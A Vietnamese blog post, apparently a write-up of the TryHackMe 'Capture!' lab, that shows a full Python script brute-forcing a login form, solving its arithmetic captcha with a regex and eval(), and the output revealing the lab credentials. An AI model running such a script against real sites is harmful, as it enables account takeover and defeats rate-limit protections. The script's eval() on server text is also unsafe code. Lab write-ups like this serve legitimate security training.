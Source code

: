 ```yaml
---
layout: post
author: "Neo"
title: "Tryhackme - Capture!"
date: "2023-06-21"
tags: [
    "tryhackme",
    "web",
    "brute-force",
    "captcha",
    "python"
]
categories: ctf
---
```


0. this unordered seed list will be replaced by toc as unordered list
{:toc}

[TryHackMe - Capture!](https://tryhackme.com/room/capture)
## Reconnaissance and Scanning

Ngay ở Task 1 tôi đã được cung cấp 1 thư mục chứa 2 file là danh sách usernames và passwords, có thể nghĩ ngay đến việc sử dụng 2 list này để brute-force.

Bài này cũng không cần thiết phải scan port vì ở phần mô tả đã cho tôi sẵn phải truy cập vào http://MACHINE-IP, nghĩa là chỉ có port 80 đang mở.

Sau khi chạy máy và truy cập vào web tôi được 1 site login. 

![login](/assets/img/2023-07-21-THM-Capture!/1.webp)

Sau khi thử login vài lần thì tôi bị dính captcha. Vậy là web có cơ chế rate limit để tránh brute-force. Tuy nhiên, captcha này chỉ là các phép tính cộng trừ nhân chia các số tự nhiên, vậy nên tôi có thể nghĩ đến việc viết python script để bypass captcha này trong mỗi phiên brute-force.

## Python script

Với sự giúp đã của ChatGPT, tôi có thể viết lại script như sau.

Import requests để lấy Session, sử dụng để brute force, import thêm *re* để sử dụng các biểu thức chính quy.

Đầu tiên tôi cần phải lấy từng dòng trong 2 file usernames.txt và passwords.txt ra để làm username và password, loại bỏ dấu xuống dòng, chỉ lấy đúng phần text trong từng dòng. 

Thêm url để thực hiện POST request.

```python
#! /usr/bin/python

from requests import Session
import re 

url = "http://10.10.140.153/login"

usernames = open('usernames.txt','r').read().splitlines()
passwords = open('passwords.txt','r').read().splitlines()
```

Khi đăng nhập sai, trang web hiện ***Error: The user does not exist***. 

![error](/assets/img/2023-07-21-THM-Capture!/3.webp)

Vậy thì tôi sẽ brute force username trước bằng cách kiểm tra xem khi nào dữ liệu trả về không chứa đoạn ký tự ***does not exist***, đó là username hợp lệ cần tìm.

```python
for user in usernames:

 response = session.post(url,data=data)
 data['username'] = user
 
 if 'does not exist' not in response.text:
  print(f'Found username: {user}')
  print(f'Attempting to brute forcing passowrd for user: {user}')
```

Tiếp theo, cần có thêm 1 hàm để giải captcha sau mỗi phiên đăng nhập sai. Sử dụng biểu thức chính quy để định dạng phép tính của captcha.

```python
(\s\s\d+\s[+*-/]\s\d+)\s\=\s\?
```

Sử dụng hàm *complie()* để đọc biểu thức chính quy trên. Sử dụng hàm *findall()* trả về tất cả kết quả khớp với mẫu trong chuỗi. Sử dụng hàm *eval()* để trả về kết quả mà biểu thức phía trên thực hiện.

```python
def solve_captcha(response):
 
  captcha_syntax = re.compile(r'(\s\s\d+\s[+*-/]\s\d+)\s\=\s\?')
  captcha = captcha_syntax.findall(response)
  return eval(' '.join(captcha))
```

Cuối cùng, tôi sẽ ghép các phần lại với nhau. Đầu tiên, tạo post session chứa data là username và password. 

- Nếu trong response trả về không có chứa đoạn ký tự ***does not exist***, đó là username hợp lệ cần tìm
- Nếu trong response trả về có chứa đoạn ký tự ***Captcha enabled*** thì gọi hàm **solve_captcha** để xử lý.
- Nếu trong response trả về không có chứa đoạn ký tự ***Error***, đó là password hợp lệ cần tìm

Script cuối cùng của tôi sẽ trông như thế này

```python
#! /usr/bin/python

from requests import Session
import re 

url = "http://10.10.140.153/login"

# Removing the line feed (\n) from the usernames and passwords read from the respective files
usernames = open('username.txt','r').read().splitlines()
passwords = open('password.txt', 'r').read().splitlines()


def solve_captcha(response):
 
  captcha_syntax = re.compile(r'(\s\s\d+\s[+*-/]\s\d+)\s\=\s\?')
  captcha = captcha_syntax.findall(response)
  return eval(' '.join(captcha))

#initializing a session
session = Session() 
data = {'username': 'username','password':'password'}
# create a post request to the url with the payload/data using the session opened
response = session.post(url,data=data) 

for user in usernames:

 response = session.post(url,data=data)
 data['username'] = user

 if 'Captcha enabled' in response.text:

  captcha_result = solve_captcha(response.text)

  data['captcha'] = captcha_result

 response = session.post(url,data =data)

 if 'does not exist' not in response.text:
  
  print(f'Found username: {user}')
  print(f"Trying brute force passowrd for user: {user}")

  for password in passwords:

   captcha_result = solve_captcha(response.text)
   data['password'] = password
   data['captcha'] = captcha_result

   response = session.post(url,data=data)

   if 'Error' not in response.text:

    print(f'----> Found Username: {user} Password: {password} ')
    exit()
   
   else:
    print(f'[*]Trying password: {password} for user ')
 
 else:
  print(f'[*] Trying brute force password for user: {user}')
```

Kết quả 

```python 
[*]Trying password: 147258369 for user 
[*]Trying password: fernandez for user 
[*]Trying password: sakura for user 
[*]Trying password: robbie for user 
[*]Trying password: qwert for user 
[*]Trying password: shaggy for user 
[*]Trying password: 123654789 for user 
[*]Trying password: popcorn for user 
[*]Trying password: martha for user 
[*]Trying password: dance for user 
[*]Trying password: brooke for user 
[*]Trying password: 147852369 for user 
----> Found Username: natalie Password: sk8board                                                           
┌──(root㉿kali)-[/home/kali]
└─# 
```

Login site

![flag](/assets/img/2023-07-21-THM-Capture!/2.webp)

